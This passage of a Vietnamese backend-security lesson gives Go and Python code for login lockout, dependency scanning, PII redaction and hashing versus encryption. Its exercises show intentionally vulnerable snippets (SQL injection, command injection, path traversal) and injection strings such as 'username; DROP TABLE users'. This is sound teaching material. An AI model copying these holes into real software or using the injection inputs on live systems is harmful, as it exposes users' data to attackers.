    // t=  0s: sai mật khẩu
    // t=  1s: sai mật khẩu
    // t=  2s: sai mật khẩu
    // t=  3s: sai mật khẩu
    // t=  4s: sai mật khẩu
    //     -> khóa 1m0s
    // t=  5s: bị khóa, thử lại sau 59s
    // t= 70s: sai mật khẩu
    //     -> khóa 2m0s
    // t=100s: bị khóa, thử lại sau 1m30s
    // t=200s: đăng nhập thành công
    ```

=== "Python"

    ```python
    from datetime import datetime, timedelta


    class LoginGuard:
        def __init__(self, max_fails: int, base_lock: timedelta) -> None:
            self.max_fails = max_fails
            self.base_lock = base_lock
            self.fails: dict[str, int] = {}
            self.locked_until: dict[str, datetime] = {}

        def allow(self, key: str, now: datetime) -> tuple[bool, timedelta]:
            until = self.locked_until.get(key)
            if until and now < until:
                return False, until - now
            return True, timedelta(0)

        def fail(self, key: str, now: datetime) -> None:
            n = self.fails[key] = self.fails.get(key, 0) + 1
            if n >= self.max_fails:
                lock = self.base_lock * 2 ** (n - self.max_fails)
                self.locked_until[key] = now + lock
                print(f"    -> khóa {int(lock.total_seconds())}s")

        def success(self, key: str) -> None:
            self.fails.pop(key, None)
            self.locked_until.pop(key, None)


    if __name__ == "__main__":
        g = LoginGuard(5, timedelta(minutes=1))
        t0 = datetime(2026, 9, 28, 10, 0, 0)
        user = "an@shop.vn"

        def attempt(sec: int, correct: bool) -> None:
            now = t0 + timedelta(seconds=sec)
            ok, wait = g.allow(user, now)
            if not ok:
                print(f"t={sec:3d}s: bị khóa, thử lại sau {int(wait.total_seconds())}s")
                return
            if correct:
                print(f"t={sec:3d}s: đăng nhập thành công")
                g.success(user)
                return
            print(f"t={sec:3d}s: sai mật khẩu")
            g.fail(user, now)

        for s in range(6):
            attempt(s, False)
        attempt(70, False)
        attempt(100, True)
        attempt(200, True)

    # Output:
    # t=  0s: sai mật khẩu
    # t=  1s: sai mật khẩu
    # t=  2s: sai mật khẩu
    # t=  3s: sai mật khẩu
    # t=  4s: sai mật khẩu
    #     -> khóa 60s
    # t=  5s: bị khóa, thử lại sau 59s
    # t= 70s: sai mật khẩu
    #     -> khóa 120s
    # t=100s: bị khóa, thử lại sau 90s
    # t=200s: đăng nhập thành công
    ```

Ở production, trạng thái `fails`/`lockedUntil` phải lưu ở **Redis** (dùng chung giữa nhiều instance, có TTL tự dọn) — xem [Bài 8](./08-caching.md).

## 📖 9. Bảo mật chuỗi cung ứng phần mềm (Supply Chain)

Code của bạn có thể chỉ 10.000 dòng, nhưng kéo theo **hàng trăm nghìn dòng** từ thư viện bên thứ ba. Mỗi thư viện là một cánh cửa:

- **Log4Shell** (12/2021): lỗ hổng trong thư viện log Java phổ biến → hàng triệu server bị chiếm quyền.
- **xz-utils backdoor** (3/2024): kẻ tấn công kiên nhẫn 2 năm làm maintainer rồi cài cửa hậu vào thư viện nén.
- **Typosquatting**: gói `reqeusts` (viết sai `requests`) trên PyPI chứa mã đánh cắp dữ liệu.

| Biện pháp | Go | Python |
|-----------|-----|--------|
| **Khóa phiên bản** (lockfile) | `go.mod` + `go.sum` (có checksum) | `requirements.txt` với `==` + `--require-hashes`, hoặc `uv.lock`/`poetry.lock` |
| **Quét lỗ hổng đã biết** | `govulncheck ./...` (chỉ báo lỗ hổng mà code **thực sự gọi tới**) | `pip-audit` |
| **Cập nhật tự động** | Dependabot / Renovate | Dependabot / Renovate |
| **Kiểm tra nguồn gốc** | Go checksum database (`sum.golang.org`) | Trusted Publishing trên PyPI |
| **SBOM** (danh sách thành phần) | `syft`, `cyclonedx-gomod` | `cyclonedx-py` |
| **Quét image container** | `trivy image`, `grype` | như bên trái |

```bash
# Go
go install golang.org/x/vuln/cmd/govulncheck@latest
govulncheck ./...

# Python
pip install pip-audit
pip-audit -r requirements.txt
```

```text
Output (ví dụ):
Vulnerability #1: GO-2025-XXXX
    Excessive resource consumption in net/http
  Found in: net/http@go1.24.1
  Fixed in: net/http@go1.24.4
  Example traces found:
    #1: cmd/server/main.go:42:25: server.main calls http.ListenAndServe

Name     Version ID                  Fix Versions
-------- ------- ------------------- ------------
jinja2   3.1.2   GHSA-h5c8-rqwp-cp95 3.1.3
```

Đưa các lệnh này vào **CI** để mỗi pull request đều được kiểm tra — xem [Bài 13](./13-testing-cicd-deployment.md). Ngoài ra: dùng image nền tối giản (distroless, alpine) như trong [Go - Bài 17: Docker](../golang/17-docker.md), chạy container bằng user không phải root, và giới hạn quyền của token CI.

## 📖 10. PII trong log

**PII** (Personally Identifiable Information): họ tên, số điện thoại, email, CCCD, địa chỉ, số thẻ, vị trí... **Nghị định 13/2023/NĐ-CP** về bảo vệ dữ liệu cá nhân của Việt Nam (và GDPR ở châu Âu) yêu cầu bảo vệ các dữ liệu này. Log thường được lưu lâu, nhiều người truy cập, gửi sang bên thứ ba (Datadog...) — nên **log là nơi rò rỉ PII phổ biến nhất**.

Nguyên tắc: **không log secret** (mật khẩu, token, OTP, số thẻ đầy đủ) **bao giờ**; **che (mask)** PII khi cần cho việc debug; log **ID** thay vì dữ liệu (`user_id=42` thay vì email).

=== "Go"

    ```go
    package main

    import (
    	"log/slog"
    	"os"
    	"strings"
    )

    var secretKeys = map[string]bool{"password": true, "token": true, "otp": true, "card_number": true}

    func maskEmail(e string) string {
    	at := strings.IndexByte(e, '@')
    	if at <= 1 {
    		return "***"
    	}
    	return e[:1] + strings.Repeat("*", at-1) + e[at:]
    }

    func maskPhone(p string) string {
    	if len(p) < 7 {
    		return "***"
    	}
    	return p[:3] + strings.Repeat("*", len(p)-6) + p[len(p)-3:]
    }

    func redact(groups []string, a slog.Attr) slog.Attr {
    	switch {
    	case a.Key == slog.TimeKey:
    		return slog.Attr{} // bỏ time cho output demo ổn định
    	case secretKeys[a.Key]:
    		return slog.String(a.Key, "[REDACTED]")
    	case a.Key == "email":
    		return slog.String(a.Key, maskEmail(a.Value.String()))
    	case a.Key == "phone":
    		return slog.String(a.Key, maskPhone(a.Value.String()))
    	}
    	return a
    }

    func main() {
    	log := slog.New(slog.NewJSONHandler(os.Stdout, &slog.HandlerOptions{ReplaceAttr: redact}))
    	log.Info("đăng ký tài khoản",
    		"user_id", 42,
    		"email", "nguyenvanan@gmail.com",
    		"phone", "0912345678",
    		"password", "matkhau123",
    		"otp", "481516")
    }

    // Output:
    // {"level":"INFO","msg":"đăng ký tài khoản","user_id":42,"email":"n**********@gmail.com","phone":"091****678","password":"[REDACTED]","otp":"[REDACTED]"}
    ```

=== "Python"

    ```python
    import json
    import logging
    import sys

    SECRET_KEYS = {"password", "token", "otp", "card_number"}


    def mask_email(e: str) -> str:
        name, _, domain = e.partition("@")
        return "***" if len(name) <= 1 else name[0] + "*" * (len(name) - 1) + "@" + domain


    def mask_phone(p: str) -> str:
        return "***" if len(p) < 7 else p[:3] + "*" * (len(p) - 6) + p[-3:]


    class RedactingJsonFormatter(logging.Formatter):
        def format(self, record: logging.LogRecord) -> str:
            data = {"level": record.levelname, "msg": record.getMessage()}
            for k, v in getattr(record, "fields", {}).items():
                if k in SECRET_KEYS:
                    v = "[REDACTED]"
                elif k == "email":
                    v = mask_email(v)
                elif k == "phone":
                    v = mask_phone(v)
                data[k] = v
            return json.dumps(data, ensure_ascii=False, separators=(",", ":"))


    if __name__ == "__main__":
        log = logging.getLogger("app")
        h = logging.StreamHandler(sys.stdout)
        h.setFormatter(RedactingJsonFormatter())
        log.addHandler(h)
        log.setLevel(logging.INFO)
        log.info("đăng ký tài khoản", extra={"fields": {
            "user_id": 42, "email": "nguyenvanan@gmail.com", "phone": "0912345678",
            "password": "matkhau123", "otp": "481516"}})

    # Output:
    # {"level":"INFO","msg":"đăng ký tài khoản","user_id":42,"email":"n**********@gmail.com","phone":"091****678","password":"[REDACTED]","otp":"[REDACTED]"}
    ```

!!! tip "Redact ở nhiều tầng"
    Redact trong code là tầng 1. Tầng 2: pipeline log (Vector, Fluent Bit, OTel Collector) lọc theo regex số thẻ/CCCD trước khi gửi đi. Tầng 3: giới hạn ai được đọc log và thời gian lưu trữ. Đặc biệt cẩn thận với **log request body** tự động và **error message** chứa nguyên câu SQL kèm giá trị.

## 📖 11. Hashing vs Encryption vs Encoding

Ba khái niệm này bị nhầm lẫn **liên tục**, kể cả trong các bài phỏng vấn:

| | **Encoding** (mã hóa định dạng) | **Encryption** (mã hóa bảo mật) | **Hashing** (băm) |
|---|---|---|---|
| Mục đích | Biểu diễn dữ liệu ở dạng khác cho **tương thích** | Giữ **bí mật** | **Kiểm tra toàn vẹn** / lưu mật khẩu |
| Đảo ngược được? | ✅ Ai cũng đảo được | ✅ Chỉ ai có **khóa** | ❌ Một chiều |
| Cần khóa? | Không | Có | Không (HMAC thì có) |
| Ví dụ | Base64, URL encoding, UTF-8, hex | AES-GCM, ChaCha20, RSA | SHA-256, bcrypt, argon2id, HMAC |
| Dùng khi | Nhúng binary vào JSON, URL | Lưu số CCCD, token của bên thứ ba cần dùng lại | Lưu mật khẩu, checksum file, ký webhook (HMAC) |
| Sai lầm kinh điển | "Mật khẩu đã được mã hóa base64" = **không bảo mật gì cả** | Tự chế thuật toán, dùng ECB, tái sử dụng nonce | Dùng SHA-256 **nhanh** để lưu mật khẩu (brute-force hàng tỉ lần/giây bằng GPU) |

> 💡 **Ví von**: **Encoding** là dịch sang tiếng Anh — ai biết tiếng Anh đều đọc được. **Encryption** là bỏ vào két sắt — chỉ người có chìa mở được. **Hashing** là cho vào máy xay sinh tố — nhìn ly sinh tố không thể ghép lại quả xoài, nhưng xay cùng quả xoài thì luôn ra cùng một ly.

=== "Go"

    ```go
    package main

    import (
    	"crypto/aes"
    	"crypto/cipher"
    	"crypto/hmac"
    	"crypto/rand"
    	"crypto/sha256"
    	"encoding/base64"
    	"encoding/hex"
    	"fmt"
    )

    func main() {
    	secret := "matkhau123"

    	// 1. Encoding: ai cũng giải được
    	enc := base64.StdEncoding.EncodeToString([]byte(secret))
    	dec, _ := base64.StdEncoding.DecodeString(enc)
    	fmt.Println("base64:", enc, "-> giải ngược:", string(dec))

    	// 2. Hashing: một chiều, cùng đầu vào -> cùng đầu ra
    	sum := sha256.Sum256([]byte(secret))
    	fmt.Println("sha256:", hex.EncodeToString(sum[:])[:16]+"...")

    	// HMAC: hash CÓ KHÓA - dùng ký webhook, xác minh dữ liệu không bị sửa
    	mac := hmac.New(sha256.New, []byte("khoa-bi-mat-webhook"))
    	mac.Write([]byte(`{"order_id":42,"status":"paid"}`))
    	sig := mac.Sum(nil)
    	fmt.Println("hmac hợp lệ:", hmac.Equal(sig, sig)) // so sánh constant-time

    	// 3. Encryption (AES-256-GCM): đảo ngược được nếu có khóa
    	key := make([]byte, 32)
    	rand.Read(key) // thực tế: lấy từ KMS / secret manager
    	block, _ := aes.NewCipher(key)
    	gcm, _ := cipher.NewGCM(block)
    	nonce := make([]byte, gcm.NonceSize()) // KHÔNG BAO GIỜ dùng lại nonce với cùng key
    	rand.Read(nonce)
    	ct := gcm.Seal(nil, nonce, []byte("CCCD: 001099012345"), nil)
    	pt, err := gcm.Open(nil, nonce, ct, nil)
    	fmt.Println("giải mã:", string(pt), err)

    	ct[0] ^= 1 // kẻ tấn công sửa 1 bit
    	_, err = gcm.Open(nil, nonce, ct, nil)
    	fmt.Println("sau khi bị sửa:", err)
    }

    // Output:
    // base64: bWF0a2hhdTEyMw== -> giải ngược: matkhau123
    // sha256: fc8d5c17ee6bd893...
    // hmac hợp lệ: true
    // giải mã: CCCD: 001099012345 <nil>
    // sau khi bị sửa: cipher: message authentication failed
    ```

=== "Python"

    ```python
    import base64
    import hashlib
    import hmac
    import os

    secret = "matkhau123"

    # 1. Encoding
    enc = base64.b64encode(secret.encode()).decode()
    print("base64:", enc, "-> giải ngược:", base64.b64decode(enc).decode())

    # 2. Hashing
    print("sha256:", hashlib.sha256(secret.encode()).hexdigest()[:16] + "...")

    key = b"khoa-bi-mat-webhook"
    body = b'{"order_id":42,"status":"paid"}'
    sig = hmac.new(key, body, hashlib.sha256).hexdigest()
    print("hmac hợp lệ:", hmac.compare_digest(sig, hmac.new(key, body, hashlib.sha256).hexdigest()))

    # Hash mật khẩu: thuật toán CHẬM + salt ngẫu nhiên (stdlib có scrypt;
    # thực tế nên dùng argon2-cffi hoặc bcrypt - xem Bài 4)
    salt = os.urandom(16)
    stored = hashlib.scrypt(secret.encode(), salt=salt, n=2**14, r=8, p=1)
    attempt = hashlib.scrypt(b"matkhau123", salt=salt, n=2**14, r=8, p=1)
    print("scrypt khớp:", hmac.compare_digest(stored, attempt))

    # 3. Encryption: stdlib Python KHÔNG có AES -> dùng thư viện `cryptography`:
    #   from cryptography.hazmat.primitives.ciphers.aead import AESGCM
    #   ct = AESGCM(key).encrypt(nonce, b"CCCD: 001099012345", None)

    # Output:
    # base64: bWF0a2hhdTEyMw== -> giải ngược: matkhau123
    # sha256: fc8d5c17ee6bd893...
    # hmac hợp lệ: True
    # scrypt khớp: True
    ```

!!! warning "So sánh secret phải dùng constant-time"
    `if token == expected` dừng ngay ở ký tự khác đầu tiên → thời gian phản hồi lộ ra "đúng được bao nhiêu ký tự" (**timing attack**). Dùng `hmac.Equal` / `subtle.ConstantTimeCompare` (Go), `hmac.compare_digest` (Python) cho token, chữ ký webhook, CSRF token.

## 🌍 Ứng dụng thực tế

- **Ngân hàng & ví điện tử tại Việt Nam** tuân thủ **PCI DSS** (dữ liệu thẻ) và quy định của NHNN: mã hóa dữ liệu nhạy cảm, MFA/sinh trắc học cho giao dịch lớn, log audit không thể sửa, pentest định kỳ.
- **Cổng thanh toán (VNPay, MoMo, ZaloPay, Stripe)** ký mọi webhook/redirect bằng **HMAC-SHA256/512** với secret key; merchant phải **tự kiểm tra chữ ký** và **tự tra lại trạng thái** giao dịch, không tin tham số trên URL trả về.
- **GitHub** tự quét secret bị push (push protection) và tự thu hồi token của đối tác (AWS, Slack...) khi phát hiện.
- **Cloud metadata SSRF**: AWS ra **IMDSv2** (bắt buộc token qua PUT) chính là để giảm thiệt hại từ SSRF sau vụ Capital One.
- **Bug bounty**: các công ty lớn (kể cả ở Việt Nam) trả thưởng cho người báo lỗ hổng; IDOR và access control chiếm tỉ lệ báo cáo lớn nhất.

## ⚠️ Lỗi thường gặp

| Lỗi | Hậu quả | Cách đúng |
|-----|---------|-----------|
| Nối chuỗi SQL / dùng `fmt.Sprintf` / f-string cho câu truy vấn | SQL injection, lộ toàn bộ DB | Parameterized query; allowlist cho tên cột |
| Chỉ kiểm tra "đã đăng nhập", không kiểm tra "có quyền với đối tượng này" | IDOR — xem/sửa dữ liệu người khác | `WHERE id = ? AND owner_id = ?` + test phân quyền |
| Bind JSON thẳng vào model | Mass assignment, leo thang quyền | DTO riêng, allowlist, từ chối trường lạ |
| Tin giá tiền / quyền / user_id do client gửi | Mua hàng 1 đồng, giả mạo user | Luôn lấy từ server (DB, session) |
| `Access-Control-Allow-Origin` phản chiếu mọi origin + credentials | Mọi website đọc được dữ liệu người dùng | Allowlist origin cụ thể |
| Tắt kiểm tra chứng chỉ TLS "cho nhanh" | Man-in-the-middle | Sửa chứng chỉ / thêm CA nội bộ vào trust store |
| Commit `.env`, hard-code API key | Lộ secret, mất tiền cloud | Secret manager + gitleaks ở pre-commit/CI |
| Trả stack trace / lỗi SQL chi tiết cho client | Lộ cấu trúc hệ thống giúp kẻ tấn công | Trả lỗi chung + `request_id`; chi tiết chỉ trong log |
| Lưu mật khẩu bằng MD5/SHA-256 (hoặc base64!) | Lộ DB = lộ mật khẩu | bcrypt / argon2id có salt |
| Log mật khẩu, token, OTP, số thẻ | Rò rỉ qua hệ thống log | Redact ở code + pipeline |
| Không bao giờ cập nhật thư viện | Dính lỗ hổng đã công bố | govulncheck / pip-audit / Dependabot trong CI |
| So sánh token bằng `==` | Timing attack | `hmac.Equal` / `compare_digest` |

## 🏋️ Bài tập

### Bài tập 1: Tìm lỗ hổng (⭐ Dễ)

Mỗi đoạn code sau có lỗ hổng gì? Sửa thế nào?

```python
# (a)
cur.execute(f"SELECT * FROM products WHERE category = '{category}' ORDER BY {sort}")
# (b)
return send_file(os.path.join("uploads", request.args["name"]))
# (c)
user = User(**request.json); db.add(user)
# (d)
os.system("convert " + filename + " out.png")
# (e)
if request.headers.get("X-Api-Key") == settings.API_KEY: ...
```

<details markdown="1">
<summary>Đáp án</summary>

(a) SQL injection ở cả `category` và `sort` → placeholder cho `category`, allowlist cho `sort`. (b) Path traversal (và `name` là đường dẫn tuyệt đối thì `join` bỏ luôn `uploads`) → resolve + `is_relative_to`, hoặc lưu theo UUID. (c) Mass assignment (client gửi `is_admin=True`) → schema riêng cho đăng ký. (d) Command injection → `subprocess.run(["convert", "--", filename, "out.png"])` hoặc dùng thư viện Pillow. (e) So sánh không constant-time → `hmac.compare_digest`.

</details>

### Bài tập 2: STRIDE cho tính năng "đổi email" (⭐ Dễ)

Luồng: user đăng nhập → nhập email mới → hệ thống gửi link xác nhận tới email mới → click link → đổi email. Liệt kê ít nhất một mối đe dọa cho mỗi chữ của STRIDE và biện pháp.

<details markdown="1">
<summary>Gợi ý</summary>

S: kẻ chiếm session đổi email để chiếm tài khoản → yêu cầu nhập lại mật khẩu, gửi thông báo tới **email cũ**. T: sửa `user_id` trong link xác nhận → token ký HMAC/ngẫu nhiên lưu DB. R: audit log thay đổi. I: link chứa email lộ qua Referer → token không chứa PII, `Referrer-Policy`. D: spam gửi email xác nhận → rate limit. E: link xác nhận dùng được cho tài khoản khác → token gắn với user + hết hạn 30 phút + dùng một lần.

</details>

### Bài tập 3: Webhook thanh toán an toàn (⭐⭐ Trung bình)

Viết handler `POST /webhooks/payment` (Go hoặc Python) nhận body JSON và header `X-Signature` = hex(HMAC-SHA256(secret, body)). Yêu cầu: (1) đọc body tối đa 64KB, (2) kiểm tra chữ ký constant-time **trên raw body** (trước khi parse JSON), (3) chống **replay** bằng header `X-Timestamp` (lệch quá 5 phút thì từ chối, và ký cả timestamp), (4) idempotent theo `event_id`. Viết test cho các trường hợp: chữ ký sai, timestamp cũ, gửi trùng.

### Bài tập 4: Thêm ORDER BY an toàn vào demo SQLi (⭐⭐ Trung bình)

Mở rộng ví dụ mục 3.1: thêm tham số `sort` (`username`, `role`, `-username`...) và `limit` (1–100). Chứng minh input `sort="username; DROP TABLE users"` và `limit="1 UNION SELECT ..."` không gây hại.

### Bài tập 5: Kiểm thử phân quyền tự động (⭐⭐⭐ Khó)

Viết một bộ test "ma trận phân quyền": với mỗi endpoint trong danh sách (`GET/PUT/DELETE /orders/{id}`, `GET /users/{id}`, `POST /admin/refunds`...) và mỗi vai trò (khách, user A, user B, admin), khai báo kết quả mong đợi (200/403/404) trong một bảng, rồi test tự chạy tất cả tổ hợp. Mục tiêu: thêm endpoint mới mà quên kiểm tra quyền thì test **đỏ** ngay.

### Bài tập 6: Chống SSRF hoàn chỉnh cho Python (⭐⭐⭐ Khó)

Viết hàm `safe_fetch(url, max_bytes=2_000_000)` bằng Python (dùng `http.client` hoặc `requests` với custom adapter): phân giải DNS **một lần**, kiểm tra IP, kết nối **thẳng tới IP đã kiểm tra** (giữ header `Host` và SNI đúng), không tự theo redirect (tự xử lý redirect và kiểm tra lại từng bước, tối đa 3 lần), timeout tổng 5 giây, dừng đọc khi vượt `max_bytes`. Test bằng server cục bộ.

## ✅ Checklist hoàn thành

- [ ] Vẽ được sơ đồ luồng dữ liệu có trust boundary và áp dụng STRIDE
- [ ] Kể được OWASP Top 10 (2021) và ví dụ cho từng nhóm
- [ ] Tự tái hiện và vá được SQL injection, XSS, command injection
- [ ] Giải thích và chống được SSRF (kể cả DNS rebinding, metadata cloud)
- [ ] Chống IDOR bằng kiểm tra quyền sở hữu trong truy vấn; chống mass assignment bằng DTO/allowlist
- [ ] Chống path traversal (`os.Root`, `resolve` + `is_relative_to`, hoặc lưu file theo UUID)
- [ ] Hiểu CSRF, SameSite cookie, CSRF token và khi nào không cần
- [ ] Hiểu preflight CORS, cấu hình allowlist đúng; biết các security header chính
- [ ] Biết TLS bảo vệ điều gì và không tắt kiểm tra chứng chỉ
- [ ] Quản lý secret đúng cách, biết phải làm gì khi lộ secret
- [ ] Cài đặt được cơ chế khóa tạm chống brute-force
- [ ] Chạy được govulncheck / pip-audit và đưa vào CI
- [ ] Redact được PII/secret trong log
- [ ] Phân biệt hashing, encryption, encoding; dùng so sánh constant-time

**Bài tiếp theo**: [Bài 13: Testing, CI/CD & Deployment](./13-testing-cicd-deployment.md)
